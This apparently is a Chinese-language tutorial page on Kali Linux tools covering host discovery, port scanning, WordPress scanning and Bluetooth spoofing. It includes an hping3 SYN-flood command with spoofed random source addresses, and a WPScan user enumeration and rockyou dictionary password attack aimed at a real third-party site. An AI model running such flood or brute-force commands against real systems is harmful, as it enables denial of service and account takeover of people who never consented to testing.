![kali工具目录](kali-tools.png "kali") 

# 01 -  信息收集
## 1.1存活主机识别
### 1.1.1 arping
好像没啥用，先空着。
### 1.1.2 fping

Fping类似于ping，但比ping强大。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。

目标IP地址的输入方式：
```
fping IP1 IP2 IP3 ...；

fping -f filename；

fping -g IP1 IP2（IP1地址开始范围，IP2地址结束范围）；
```
### 1.1.3 hping3

hping3的功能：

防火墙测试

端口扫描

Idle扫描

文件传输

木马功能

拒绝服务攻击DDOS


这里讲讲拒绝服务攻击DDOS:

我使用 testphp.vulnweb.com 这个网站来测试 :
```
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com
```
注意不要加上:  http:// or www.否则会报错。

    -c：发送数据包的个数
    -d：每个数据包的大小
    -S：发送SYN数据包
    -w：TCP window大小
    -p：目标端口，你可以指定任意端口
    –flood：尽可能快的发送数据包
    –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

### 1.1.4 masscan

扫描用，比如扫描端口：
```
Masscan 10.11.0.0/16 -p80
```

### 1.1.5 thcping6

主要用于ipv6

## 1.2 路由分析

### 1.2.1 netdiscover

专用的二层发现工具。拥有主动和被动发现两种方式。

```
netdiscover -r 192.168.28.129/24
```

# 3 - web程序
## 3.1 CMS识别
### WPScan

WPScan是一个扫描 WordPress 漏洞的黑盒子扫描器。

使用方法举例：
1. 先查找用户，下面这个语句会把用户都找出来。

```
wpscan --url https://www.igyaan.in  --enumerate u
```
2. 在根据用户去用字典破解。

```
wpscan --url https://www.igyaan.in --passwords '/usr/share/wordlists/rockyou.txt'  --username test
```
你可以看这个视频学（不过这个是旧版本的wpscan视频，新版的wpscan使用方法有一点点不同，所以视频里的关键字要改掉，比如wordlist要改为passwords，username改为usernames） 

[WPScan WordPress Vulnerability Scanner | Kali Linux Tutorial 2019](https://www.youtube.com/watch?v=eQVIg7zo_94&list=LLcrvfipWK74xk2aNBq4Aa7Q&index=2&t=688s)

# 06 - 无线攻击
## 06.1蓝牙工具集
### 6.1.1 spooftoop

Spooftooph是一个了不起的工具，旨在自动欺骗或克隆蓝牙信息（名称，类和地址）。

您可以看这个视频学
```
https://www.youtube.com/watch?v=JmQk4Yp9bww
```
1. 首先使用终端运行hciconfig指令看interface和开关情况：DOWN。
```
hciconfig
```

如果不懂可以使用man hciconfig查看说明。

2. 终端开启。
```
hciconfig hci0 up
```


